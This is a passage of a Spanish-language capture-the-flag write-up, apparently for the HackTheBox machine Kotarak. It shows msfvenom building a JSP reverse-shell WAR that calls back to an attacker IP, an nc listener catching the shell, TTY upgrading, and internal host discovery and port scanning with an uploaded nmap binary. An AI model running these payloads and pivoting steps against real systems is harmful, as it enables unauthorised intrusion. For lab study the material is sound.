 Creo un war que se encargue de enviarme una reverse shell

```null
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 -f war -o pwned.war
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: pwned.war
```

La subo, ejecuto y gano acceso al sistema. Estoy dentro de un contenedor

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.55] 60860
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
tomcat@kotarak-dmz:/$ export TERM=xterm
tomcat@kotarak-dmz:/$ export SHELL=bash
tomcat@kotarak-dmz:/$ stty rows 55 columns 209
```

Estoy en la máquina víctima, pero tengo asiganada otra interfaz

```null
tomcat@kotarak-dmz:~$ hostname -I
10.10.10.55 10.0.3.1 dead:beef::250:56ff:feb9:1483
```

Subo un binario estático de ```nmap``` para aplicar HostDiscovery

```null
tomcat@kotarak-dmz:/tmp$ ./nmap --min-rate 5000 -n -sn 10.0.3.1/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-22 06:10 EDT
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.0.3.1
Host is up (0.00024s latency).
Nmap scan report for 10.0.3.133
Host is up (0.000079s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 0.30 seconds
tomcat@kotarak-dmz:/tmp$ 
```

Escaneo los puertos para la ```10.0.3.133```. Tiene el SSH abierto

```null
tomcat@kotarak-dmz:/tmp$ ./nmap -p- --open --min-rate 5000 -n -Pn 10.0.3.133

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-22 06:11 EDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.0.3.133
Host is up (0.000091s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
tomcat@kotarak-dmz:/tmp$ 
```
